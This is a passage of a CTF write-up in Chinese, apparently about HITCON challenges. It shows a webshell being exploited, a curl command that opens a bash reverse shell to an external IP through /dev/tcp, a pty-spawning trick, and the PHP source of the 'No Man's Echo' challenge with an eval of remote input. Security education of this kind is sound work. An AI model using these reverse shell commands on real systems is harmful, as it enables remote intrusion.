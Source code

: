 `bash exploit.sh http://orange.chal.hitconctf.com d9b7c60822d381105ce4452d0c770ce3`

這樣 webshell 就完成了

因為 `/read_flag` 要解數學題所以接著彈 reverse shell 出來

`curl "http://orange.chal.hitconctf.com/sandbox/d9b7c60822d381105ce4452d0c770ce3/a.php?0=$(urlencode 'bash -c "bash -i >& /dev/tcp/160.187.198.4/22222 0>&1"')"`

然後原本以為這樣就結束了，結果發現因為 `/read_flag` 沒有 flush stdout RRRRR

![image](https://github.com/user-attachments/assets/d6d0ec87-8d5e-4940-b60a-23f5c269ade4)

當時因為是大半夜我很想睡覺所以有點暴躁

總之花了一些時間想辦法在 reverse shell 上搞一個 pty 出來（我就爛之前沒這樣弄過 QQ）

後來是 [pwn2ooown](https://pwn2ooown.tech/) 幫忙成功用 `script -qc /bin/bash /dev/null` 開一個 pty 出來讀 flag 才結束

事後 [pwn2ooown](https://pwn2ooown.tech/) 表示

![image](https://github.com/user-attachments/assets/bfafab19-c815-427f-a0b0-b4ccdf837a4f)

然後我結束後問一坨人怎解的他們說直接用 webshell 爆他乘法的答案，~~這邊就很想問 [orange](https://blog.orange.tw/) 這是不是 intended~~

## No Man's Echo

![image](https://github.com/user-attachments/assets/0c2835be-c200-48c0-b158-848f640b06fb)

題目長這樣

```php
<?php                                                                                                                                                                                                                    $probe = (int)@$_GET['probe'];
        $range = range($probe, $probe + 42);
        shuffle($range);

        foreach ($range as $k => $port) {
                $target = sprintf("tcp://%s:%d", $_SERVER['SERVER_ADDR'], $port);
                $fp = @stream_socket_client($target, $errno, $errstr, 1);
            if (!$fp) continue;

            stream_set_timeout($fp, 1);
            fwrite($fp, file_get_contents("php://input"));
            $data = fgets($fp);
            if (strlen($data) > 0) {
                $data = json_decode($data);
                if (isset($data->signal) && $data->signal == 'Arrival')
                        eval($data->logogram);

                fclose($fp);
                exit(-1);
            }
        }
        highlight_file(__FILE__);
```

